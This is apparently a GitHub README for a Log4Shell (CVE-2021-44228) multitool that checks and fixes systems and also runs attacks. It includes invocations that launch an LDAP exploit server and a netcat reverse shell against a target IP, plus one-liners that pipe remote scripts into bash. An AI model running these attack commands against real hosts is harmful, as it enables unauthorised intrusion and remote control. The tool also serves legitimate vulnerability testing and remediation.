 # log4shell4shell
Log4j - Multitool. Find &amp; fix possible CVE-2021-44228 vulneraries - provides a complete LOG4SHELL test/attack environment

![Thumb](/logo_banner.png )

# Features

- Check your Linux/Mac/BSD and Windows System for CVE-2021-44228 vulneraries
- Fix your system by deleting log4j java class / or setting some enviroment variables 
- Proof of Concept: you can run a dummy spring boot server for testing the exploit by yourself (https://github.com/christophetd/log4shell-vulnerable-app)
- You can run a attack against a wished IP-Port and include a Base64 Command / Or A simple Reverse Shell
- Full ip-range scanning by https://github.com/fullhunt/log4j-scan

# How to Run on Linux/Mac/BSD:

### Requirements:

- https://docs.docker.com/get-docker/
- Debian / Ubuntu: ```apt update ; apt install java python3 pip bash curl```
- OpenSuse: ```zypper ref ; zypper in java python3 pip bash curl```
- Redhead-Linux / CentOS: ```yum clean; yum install java python3 pip bash curl```
- BSD pkg: ```pkg install java python3 pip curl```
- Mac OS (Brew): ```/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)" ; brew install java python3 pip curl```

### Quick check your system with this oneliner:

```bash
wget https://raw.githubusercontent.com/suuhm/log4shell4shell/main/log4shell4shell.sh -qO- | bash -s -- --check-system
```

### More Options
#### Run a sample attack against IP: 10.4.4.20 Port 8080 loginpage and additionally a Reverse Proxy Shell :

```bash
git clone https://github.com/suuhm/log4shell4shell ; cd log4shell4shell
mv log4shell4shell.sh l4s4s.sh && chmod +x l4s4s.sh
./l4s4s.sh --run-attack http://10.4.4.20:8080/login.php -e
```
Run ```screen -r l4s4s-ldap-srv``` and/or ```screen -r l4s4s-nc-rsh``` to view some attacking infos in Exploit-Server shell: 


#### Run a full scan  IP: 10.4.4.20 Port 8080 and additionally a try all tests :

```bash
./l4s4s.sh --python-scan "-u 10.4.4.20:8080 --run-all-tests"
```


### All available Options

```bash
_|                            _|  _|              _|                  _|  _|  _|  _|              _|                  _|  _|
_|          _|_|      _|_|_|  _|  _|      _|_|_|  _|_|_|      _|_|    _|  _|  _|  _|      _|_|_|  _|_|_|      _|_|    _|  _|
_|        _|    _|  _|    _|  _|_|_|_|  _|_|      _|    _|  _|_|_|_|  _|  _|  _|_|_|_|  _|_|      _|    _|  _|_|_|_|  _|  _|
_|        _|    _|  _|    _|      _|        _|_|  _|    _|  _|        _|  _|      _|        _|_|  _|    _|  _|        _|  _|
_|_|_|_|    _|_|      _|_|_|      _|    _|_|_|    _|    _|    _|_|_|  _|  _|      _|    _|_|_|    _|    _|    _|_|_|  _|  _|
                          _|
                      _|_|

 > Running Log4shell Framework & Check-Toolkit on shell v0.1a (C) 2021 suuhm
 

Usage: ./l4s4s.sh [OPTIONS] <IP:PORT|COMMAND>

                        --get-powershell-finder
                        --check-system
                        --fix-log4j
                        --run-dummy-server <LDAP-SERVER.zip>
                        --run-attack <FORMAT: IP:PORT> <-e/-t>
                        --python-scan <command>

```

# How to Run on Windows x86 / x64:

Just run in Powershell: ``` .\set_windows_fix.ps1 ```


### This script is alpha! So please let me know if you have some issues

### Legal Disclaimer

The project log4shell4shell is made for educational and ethical testing purposes only. Usage of log4j-scan for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.
